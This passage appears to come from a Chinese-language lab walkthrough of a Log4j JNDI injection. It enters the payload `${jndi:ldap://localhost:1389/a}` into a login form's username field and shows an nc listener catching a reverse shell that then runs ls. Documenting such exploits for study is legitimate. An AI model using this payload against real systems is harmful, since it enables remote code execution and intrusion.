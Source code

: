 然后在网站username处输入`${jndi:ldap://localhost:1389/a}`，password处随便填写，点击login

![](img/输入jndi注入命令.png)

poc运行窗口出现LDAP发送成功提示

![](img/LDAP已发送.png)

nc运行窗口提示连接成功

![](img/连接成功.png)

此时已经获得反弹后的shell，输入ls可以查看路径下的文件

![](img/运行命令.png)